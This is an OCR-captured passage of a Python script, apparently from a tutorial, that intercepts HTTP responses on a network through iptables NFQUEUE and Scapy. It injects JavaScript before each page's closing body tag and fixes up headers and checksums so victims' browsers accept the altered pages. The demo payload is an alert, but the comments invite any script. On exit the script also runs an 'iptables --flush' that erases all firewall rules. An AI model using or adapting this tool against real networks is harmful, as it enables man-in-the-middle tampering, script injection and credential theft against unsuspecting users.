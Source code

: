 ```python!
            print(f"[*] Detected HTTP Response from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except:
                packet.accept()
                return
            # if you want to debug and see the HTML data
            # print("Load:", load)
            # Javascript code to add, feel free to add any Javascript code
            added_text = "<script>alert('Javascript Injected successfully!');</script>"
            # or you can add HTML as well!
            # added_text = "<p><b>HTML Injected successfully!</b></p>"
            # calculate the length in bytes, each character corresponds to a byte
            added_text_length = len(added_text)
            # replace the </body> tag with the added text plus </body>
            load = load.replace("</body>", added_text + "</body>")
            if "Content-Length" in load:
                # if Content-Length header is available
                # get the old Content-Length value
                content_length = int(re.search(r"Content-Length: (\d+)\r\n", load).group(1))
                # re-calculate the content length by adding the length of the injected code
                new_content_length = content_length + added_text_length
                # replace the new content length to the header
                load = re.sub(r"Content-Length:.*\r\n", f"Content-Length: {new_content_length}\r\n", load)
                # print a message if injected
                if added_text in load:
                    print(f"{GREEN}[+] Successfully injected code to {spacket[IP].dst}{RESET}")
            # if you want to debug and see the modified HTML data
            # print("Load:", load)
            # set the new data
            spacket[Raw].load = load
            # set IP length header, checksums of IP and TCP to None
            # so Scapy will re-calculate them automatically
            spacket[IP].len = None
            spacket[IP].chksum = None
            spacket[TCP].chksum = None
            # set the modified Scapy packet back to the netfilterqueue packet
            packet.set_payload(bytes(spacket))
    # accept all the packets
    packet.accept()


if __name__ == "__main__":
    # initialize the queue
    # queue = netfilterqueue.NetfilterQueue()
    try:
        if os.geteuid() != 0:
            exit("Run with root permission!")
        os.system('iptables -A INPUT -j NFQUEUE --queue-num 0')
        queue = NetfilterQueue()
        queue.bind(0, process_packet)
        queue.run()
    except KeyboardInterrupt:
        os.system("iptables --flush")
```

